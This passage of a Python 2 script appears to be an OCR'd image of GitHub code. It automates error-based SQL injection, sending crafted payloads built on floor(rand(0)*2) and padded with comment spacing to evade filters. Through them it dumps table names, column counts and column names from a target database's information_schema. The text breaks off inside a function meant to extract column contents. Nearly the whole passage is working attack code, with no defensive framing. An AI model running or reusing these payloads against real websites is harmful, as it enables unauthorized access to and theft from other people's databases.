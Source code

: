         tables_name_url = url + "'+and(select/**/1/**/from(select/**/count(*),concat((select/**/(select/**/(/**/select/**/concat(0x7e7e3a7e7e,/**/table_name,/**/0x7e7e3a7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=%s/**/limit/**/%d,1))/**/from/**/information_schema.tables/**/limit/**/0,1),floor(rand(0)*2))x/**/from/**/information_schema.tables/**/group/**/by/**/x)a)--+" % (db_name_hex, index)
        response = urllib2.urlopen(tables_name_url)
        html = response.read()
        # print html
        table_name = re.search(r'~~:~~(.*?)~~:~~',html).group(1)
        print "\t%s" % table_name

def getAllColumnsByTable(url,table_name,db_name):
    db_name_hex = "0x" + binascii.b2a_hex(db_name)
    table_name_hex = "0x" + binascii.b2a_hex(table_name)
    payload = "'+and(select 1 from(select count(*),concat((select (select ( select concat(0x7e7e3a7e7e,count(column_name),0x7e7e3a7e7e) from information_schema.columns where table_name=%s and table_schema=%s)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)--+" % (table_name_hex,db_name_hex)
    # print payload
    payload = "/**/".join(payload.split())
    column_num_url = url + payload
    response = urllib2.urlopen(column_num_url)
    html = response.read()
    column_num = int(re.search(r'~~:~~(\d*?)~~:~~',html).group(1))
    # print column_num
    print "Table %s of the %s has %d columns" % (table_name,db_name,column_num)
    print "Table %s contains the column name:" % table_name
    for index in xrange(0,column_num):
        payload = "'+and(select 1 from(select count(*),concat((select (select ( select concat(0x7e7e3a7e7e,column_name,0x7e7e3a7e7e) from information_schema.columns where table_name=%s and table_schema=%s limit %d,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)--+" % (table_name_hex,db_name_hex,index)
        payload = "/**/".join(payload.split())
        # print payload
        column_value_url = url + payload
        response = urllib2.urlopen(column_value_url)
        html = response.read()
        # print html
        column_name = re.search(r'~~:~~(.*?)~~:~~',html).group(1)
        print "\t%s" % column_name


def getAllcontent(url,column_name,table_name,db_name):
    # print url
    # print column_name
    # print table_name
    # print db_name
    column_name = column_name.split(',')
    num_column = len(column_name) #想得到的字段的个数